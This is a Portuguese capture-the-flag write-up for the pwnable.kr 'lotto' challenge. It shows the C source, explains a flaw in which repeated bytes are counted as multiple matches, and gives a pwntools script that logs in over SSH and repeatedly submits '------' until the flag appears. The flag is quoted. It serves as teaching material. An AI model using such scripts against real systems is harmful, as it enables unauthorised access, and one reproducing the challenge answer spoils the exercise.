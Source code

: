 # bof
###### Resolvido por @Menegaldo
> Este é um CTF sobre [Operating logic]

## Sobre o Desafio  

Mamãe! Fiz um programa de loteria para meu dever de casa.
você quer jogar?

ssh lotto@pwnable.kr -p2222 (pw:guest)

## 🔗 Links do Desafio

- [Exercício](https://pwnable.kr/play.php#)

## Solução

O desafio proposto fornece as seguintes informações: uma pessoa criou um jogo de loteria e concedeu acesso a um servidor SSH. Dentro desse servidor, há três arquivos: `lotto`, `lotto.c` e `flag`.

![image](https://github.com/user-attachments/assets/afd67885-fbed-4b0d-92bf-46c9e5cc03a9)

O arquivo `lotto.c` contém o código-fonte do jogo, responsável pela mecânica da loteria.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

unsigned char submit[6];

void play(){

        int i;
        printf("Submit your 6 lotto bytes : ");
        fflush(stdout);

        int r;
        r = read(0, submit, 6);

        printf("Lotto Start!\n");
        //sleep(1);

        // generate lotto numbers
        int fd = open("/dev/urandom", O_RDONLY);
        if(fd==-1){
                printf("error. tell admin\n");
                exit(-1);
        }
        unsigned char lotto[6];
        if(read(fd, lotto, 6) != 6){
                printf("error2. tell admin\n");
                exit(-1);
        }
        for(i=0; i<6; i++){
                lotto[i] = (lotto[i] % 45) + 1;         // 1 ~ 45
        }
        close(fd);

        // calculate lotto score
        int match = 0, j = 0;
        for(i=0; i<6; i++){
                for(j=0; j<6; j++){
                        if(lotto[i] == submit[j]){
                                match++;
                        }
                }
        }

        // win!
        if(match == 6){
                system("/bin/cat flag");
        }
        else{
                printf("bad luck...\n");
        }

}

void help(){
        printf("- nLotto Rule -\n");
        printf("nlotto is consisted with 6 random natural numbers less than 46\n");
        printf("your goal is to match lotto numbers as many as you can\n");
        printf("if you win lottery for *1st place*, you will get reward\n");
        printf("for more details, follow the link below\n");
        printf("http://www.nlotto.co.kr/counsel.do?method=playerGuide#buying_guide01\n\n");
        printf("mathematical chance to win this game is known to be 1/8145060.\n");
}

int main(int argc, char* argv[]){

        // menu
        unsigned int menu;

        while(1){

                printf("- Select Menu -\n");
                printf("1. Play Lotto\n");
                printf("2. Help\n");
                printf("3. Exit\n");

                scanf("%d", &menu);

                switch(menu){
                        case 1:
                                play();
                                break;
                        case 2:
                                help();
                                break;
                        case 3:
                                printf("bye\n");
                                return 0;
                        default:
                                printf("invalid menu\n");
                                break;
                }
        }
        return 0;
}
```

O código acima define a função `play()`, responsável pelo jogo de loteria.

A entrada dos números da loteria é processada por este trecho:

```c
int i;
printf("Submit your 6 lotto bytes : ");
fflush(stdout);
int r;
r = read(0, submit, 6);
```

Aqui, o usuário insere 6 números, armazenados no `array` submit. O comando `read(0, submit, 6)` lê 6 bytes da entrada padrão (`stdin`).

O código gera números aleatórios usando `/dev/urandom`:

```c
int fd = open("/dev/urandom", O_RDONLY);
if(fd==-1){
        printf("error. tell admin\n");
        exit(-1);
}
```

Os 6 bytes aleatórios são lidos e armazenados no array `lotto`:

```c
unsigned char lotto[6];
if(read(fd, lotto, 6) != 6){
        printf("error2. tell admin\n");
        exit(-1);
}
```

Os números são então convertidos para valores entre 1 e 45:

```c
for(i=0; i<6; i++){
        lotto[i] = (lotto[i] % 45) + 1;
}
```

A vulnerabilidade lógica está na verificação dos números correspondentes. O código conta quantas vezes um número do usuário (submit) aparece no array `lotto`, permitindo contagens repetidas:

```c
int match = 0, j = 0;
for(i=0; i<6; i++){
        for(j=0; j<6; j++){
                if(lotto[i] == submit[j]){
                        match++;
                }
        }
}
```

Caso o usuário acerte 6 números (considerando a falha na contagem), o programa exibe o conteúdo do arquivo `flag`:

```c
if(match == 6){
        system("/bin/cat flag");
}
else{
        printf("bad luck...\n");
}
```

Se os números não forem todos reconhecidos, a mensagem `"bad luck..."` é exibida.

Com base nessa falha, é possível aumentar as chances de ganhar. O código a seguir automatiza essa tentativa:

```python
from pwn import *

sh = ssh('lotto', '128.61.240.205', password='guest', port=2222)
p = sh.process('./lotto')

for i in range(1000):
    p.recv()
    p.sendline(b'1')
    p.recv()
    p.sendline(b'------')
    _, ans = p.recvlines(2)
    
    if b"bad" not in ans:
        print(ans.decode())
        break
```

O script Python estabelece uma conexão com o servidor SSH utilizando as credenciais fornecidas e, em seguida, executa o programa `lotto`. Para explorar a vulnerabilidade identificada, ele repete o processo de jogo mil vezes. A cada iteração, o script envia o número `1` para selecionar a opção de jogar e insere a sequência de caracteres `b'------'` como entrada, aproveitando a falha na contagem de números repetidos. Após cada tentativa, a resposta do programa é analisada para verificar se a mensagem `"bad luck"` está presente. Caso essa mensagem não apareça, significa que o exploit funcionou e a `flag` foi obtida, encerrando o loop imediatamente.

![image](https://github.com/user-attachments/assets/dd178db0-a2e6-4e21-9d64-56ed4e3e150f)

> Assim, obtemos a flag `sorry mom... I FORGOT to check duplicate numbers... :(`
